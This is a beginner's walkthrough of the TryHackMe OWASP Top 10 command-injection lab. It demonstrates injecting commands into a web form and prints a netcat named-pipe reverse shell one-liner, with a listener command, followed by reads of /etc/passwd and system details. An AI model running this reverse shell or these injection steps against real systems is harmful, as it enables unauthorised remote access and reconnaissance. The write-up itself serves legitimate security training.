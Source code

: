 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)
#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 
![error](imgs/eroor.PNG)


but if i enter "root" the page will print a message with success
![suess](imgs/success.PNG)


so now i will try yo inject it with a username and  command "root;ls"
![test1](imgs/test1.PNG)


the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 
![#1i](imgs/#1.PNG)


the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 

to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 

maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 
![#1i](imgs/#1.PNG)


### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

![#2i](imgs/#2.PNG)


will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

![#3i](imgs/#3.PNG)


the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

![#4i](imgs/#2.PNG)


### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 

![#5.1](imgs/#5.1.PNG)


but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

![#5.2](imgs/#5.2.PNG)


### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 

in the end of the file the mention a type of drink 
![#6i](imgs/#6.PNG)


thanks 


